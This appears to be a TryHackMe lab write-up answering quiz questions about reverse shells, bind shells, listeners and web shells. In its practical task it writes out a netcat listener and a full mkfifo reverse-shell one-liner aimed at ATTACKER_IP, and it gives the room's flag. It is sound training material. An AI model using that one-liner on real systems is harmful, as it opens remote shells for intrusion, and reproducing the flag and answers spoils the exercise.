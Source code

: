 **Task 2 - Shell Overview**

*Q1: What is the command-line interface that allows users to interact with an operating system?*

A: The command-line interface that allows users to interact with an operating system is called a **shell**. A shell is a very powerful tool. Use it wisely.

*Q2: What process involves using a compromised system as a launching pad to attack other machines in the network?*

A: Depending on an attacker's intentions, a compromised machine can just be a launching pad to attack other machines, and make them compromised. The initial machine may not even be the prime target. This process is known as **pivoting**

*Q3: What is a common activity attackers perform after obtaining shell access to escalate their privileges?*

A: An attack will commonly perform the process called **Privilege Escalation**. A shell can act as the mediator for bad actors. Be careful!

**Task 3 - Reverse Shell**

*Q1: What type of shell allows an attacker to execute commands remotely after the target connects back?*

A: A **Reverse Shell** allows for an attacker to execute commands remotely after the target connects back to them. This is commonly exploited.

*Q2: What tool is commonly used to set up a listener for a reverse shell?*

A: **Netcat** is a very common tool that is used to set up listeners. Listeners will listen on a given port for activity (traffic) on said port. 

**Task 4 - Bind Shell**

*Q1: What type of shell opens a specific port on the target for incoming connections from the attacker?*

A: A **Bind Shell** opens a specific port on the target machine, allowing for incoming connections from an attacker or bad actor.

*Q2: Listening below which port number requires root access or privileged permissions?*

A: Port **1024** and below are the most common ports, and are reserved for specific protocols. Most of these ports require root access.

**Task 5 - Shell Listeners**

*Q1: Which flexible networking tool allows you to create a socket connection between two data sources?*

A: **Socat** is a utility that allows you to create a socket connection between two data sources. 

*Q2: Which command-line utility provides readline-style editing and command history for programs that lack it, enhancing the interaction with a shell listener?*

A: **Rlwrap**, is a small utility that uses the GNU readline library and provides editing keyboard and history.

*Q3: What is the improved version of Netcat distributed with the Nmap project that offers additional features like SSL support for listening to encrypted shells?*

A: **Ncat** is the improved version of Netcat that makes the aforementioned improvements to the already incredibly useful tool.

**Task 6 - Shell Payloads**

*Q1: Which Python module is commonly used for managing shell commands and establishing reverse shell connections in security assessments?*

A: **Subprocess** is the name of the Python module most commonly used to spawn a shell and set it up as a Python reverse shell. It exports environment variables.

*Q2: What shell payload method in a common scripting language uses the **exec, shell_exec, system, passthru, and popen** functions to execute commands remotely through a TCP connection?*

A: **PHP** is the common scripting language used in the previously mentioned commands, and can be remotely executed through a TCP connection.

*Q3: What scripting language can use a reverse shell by exporting environment variables and creating a socket connection?*

A: **Python** is an incredibly powerful scripting and programming language that can use a reverse shell by exporting variables and creating a socket connection.

**Task 7 - Web Shell**

*Q1: What vulnerability type allows for attackers to upload a malicious script by failing to restrict file types?*

A: An **Unrestricted File Upload** is a very dangerous vulnerability that allows for an attack to upload a malicious script or file due to network misconfiguration.

*Q2: What is a malicious script uploaded to a vulnerable web application to gain unauthorized access?*

A: A **Web Shell** is a malicious script uploaded to a vulnerable web application. A reverse shell is then established, and unauthorized access can be achieved.

**Task 8 - Practical Task**

*Q1: Using a reverse or bind shell, exploit the command injection vulnerability to get a shell. What is the content of the flag saved in the / directory?*

A: There were a few issues with this, but I will walk through it step-by-step. Firstly, we need to set up communication between the boxes. This can be done at the website of the target box on port 8080. Click on the first practical task. Once done, let's set up a listener. This can be done via the following command:
*nc -lvnp 8081*.

We are doing port 8081, because the task said that is the vulnerable port for command injection.
Now that netcat is listening over port 8081, let's go back to the target box, and input this string into the field provided: 
*rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f*

Replace the ATTACKER_IP and ATTACKER_PORT with the respective IP and port. Afterwards, it should look something like this:

![alt text](Images/shells-fig1.png)

Once done, we can traverse directories, and can find our flag! 
THM{0f28b3e1b00becf15d01a1151baf10fd713bc625} is our answer.

**Thanks for reading!**